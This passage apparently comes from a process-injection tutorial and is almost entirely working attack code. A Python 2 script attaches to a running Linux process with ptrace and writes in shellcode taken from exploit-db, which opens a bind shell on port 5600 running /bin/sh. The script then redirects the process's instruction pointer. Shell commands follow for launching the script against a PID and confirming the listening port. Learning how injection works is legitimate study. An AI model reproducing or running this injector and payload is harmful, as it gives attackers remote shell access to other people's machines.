        ("r10", ctypes.c_ulonglong),
        ("r9", ctypes.c_ulonglong),
        ("r8", ctypes.c_ulonglong),
        ("rax", ctypes.c_ulonglong),
        ("rcx", ctypes.c_ulonglong),
        ("rdx", ctypes.c_ulonglong),
        ("rsi", ctypes.c_ulonglong),
        ("rdi", ctypes.c_ulonglong),
        ("orig_rax", ctypes.c_ulonglong),
        ("rip", ctypes.c_ulonglong),
        ("cs", ctypes.c_ulonglong),
        ("eflags", ctypes.c_ulonglong),
        ("rsp", ctypes.c_ulonglong),
        ("ss", ctypes.c_ulonglong),
        ("fs_base", ctypes.c_ulonglong),
        ("gs_base", ctypes.c_ulonglong),
        ("ds", ctypes.c_ulonglong),
        ("es", ctypes.c_ulonglong),
        ("fs", ctypes.c_ulonglong),
        ("gs", ctypes.c_ulonglong),
    ]

libc = ctypes.CDLL("libc.so.6")

pid=int(sys.argv[1])

# Define argument type and respone type.
libc.ptrace.argtypes = [ctypes.c_uint64, ctypes.c_uint64, ctypes.c_void_p, ctypes.c_void_p]
libc.ptrace.restype = ctypes.c_uint64

# Attach to the process
libc.ptrace(PTRACE_ATTACH, pid, None, None)
registers=user_regs_struct()

# Retrieve the value stored in registers
libc.ptrace(PTRACE_GETREGS, pid, None, ctypes.byref(registers))

print("Instruction Pointer: " + hex(registers.rip))

print("Injecting Shellcode at: " + hex(registers.rip))

# Shell code copied from exploit db.
shellcode="\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05"

# Inject the shellcode into the running process byte by byte.
for i in xrange(0,len(shellcode),4):
 
  # Convert the byte to little endian.
  shellcode_byte_int=int(shellcode[i:4+i].encode('hex'),16)
  shellcode_byte_little_endian=struct.pack("<I", shellcode_byte_int).rstrip('\x00').encode('hex')
  shellcode_byte=int(shellcode_byte_little_endian,16)
 
  # Inject the byte.
  libc.ptrace(PTRACE_POKETEXT, pid, ctypes.c_void_p(registers.rip+i),shellcode_byte)

print("Shellcode Injected!!")

# Modify the instuction pointer
registers.rip=registers.rip+2

# Set the registers
libc.ptrace(PTRACE_SETREGS, pid, None, ctypes.byref(registers))

print("Final Instruction Pointer: " + hex(registers.rip))

# Detach from the process.
libc.ptrace(PTRACE_DETACH, pid, None, None)

```

```python
python2.7 test.py 945
```

```bash
ss -pantu | grep 5600
```


